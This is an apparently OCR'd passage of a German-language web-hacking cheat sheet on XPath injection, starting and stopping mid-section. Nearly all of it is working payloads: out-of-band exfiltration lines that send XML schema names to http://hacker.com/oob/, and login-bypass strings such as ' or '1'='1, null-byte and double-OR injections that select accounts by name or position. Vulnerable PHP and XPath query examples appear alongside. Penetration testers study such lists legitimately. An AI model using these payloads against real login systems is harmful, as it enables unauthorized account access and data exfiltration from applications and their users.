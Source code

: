 ```python
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>`is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```
## Authentifizierungsumgehung

### **Beispielabfragen:**
```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```
### **OR-Bypass bei Benutzer und Passwort (gleicher Wert in beiden)**
```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```
### **Missbrauch von Null-Injektion**
```
Username: ' or 1]%00
```
### **Doppeltes ODER im Benutzernamen oder im Passwort** (ist gültig mit nur 1 anfälligem Feld)

WICHTIG: Beachten Sie, dass das **"und" die erste durchgeführte Operation ist**.
```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```
## String extraction
